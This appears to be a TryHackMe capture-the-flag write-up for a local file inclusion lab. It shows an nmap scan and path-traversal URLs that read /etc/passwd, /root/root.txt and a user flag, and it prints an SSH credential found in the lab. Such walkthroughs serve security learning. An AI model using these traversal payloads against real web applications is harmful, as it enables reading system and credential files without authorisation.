





# TryHackMe : LFI

## Initial Recon


```
sudo nmap -sS -sC -sV 10.10.94.52 > rec_ini
```



1) ssh port 22 open</br>
2) http port 80 open


## Finding the LFI Vectors 

If we chek the article sections, we find that there is a `/article?name=` parameter which takes the names of the file in order to display them.




If we try to pass `../../../../etc/passwd` to the parameter, we get the /etc/passwd file.

```
http://10.10.184.69/article?name=../../../../etc/passwd
```



## Reading other files using LFI

We know that the location of root.txt should be in `/root/root.txt`. So we try the following payload : 

```
http://10.10.184.69/article?name=../../../../root/root.txt
```

This will give us the root.txt



## Using the /etc/passwd file

If we properly check the /etc/passwd file, we see that there is a use called `falconfeast`. Also the ssh password for the user is give in comments.

```
falconfeast:rootpassword
```

From here we can either login to ssh as falconfeast or we can use the LFI to read `user.txt`.

### Using LFI

We can read user.txt if we visit `/home/falconfeast/user.txt`

```
http://10.10.184.69/article?name=../../../../home/falconfeast/user.txt
```




